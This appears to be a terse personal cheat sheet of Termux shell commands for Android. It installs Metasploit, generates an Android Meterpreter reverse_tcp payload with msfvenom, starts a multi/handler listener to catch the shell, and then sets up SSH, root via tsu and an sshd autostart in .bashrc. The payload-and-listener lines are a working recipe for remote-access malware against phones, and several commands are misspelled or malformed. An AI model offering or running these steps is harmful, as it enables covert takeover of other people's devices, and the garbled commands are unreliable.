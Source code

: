 #fdroid
---

apt update && apt upgrade

pkg install unstable-repo

pkg install metasploit

msfvenom -p android/meterpreter/reverse_tcp LHOST=

msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST 

set LPORT

expolit

pkg install vim

passwd

pgk upgrade

pkg install openssh 8022

sshd

pkill ssh

apt install tsu

tsu

echo "sshd" >> ~/.bashrc auto-ssh
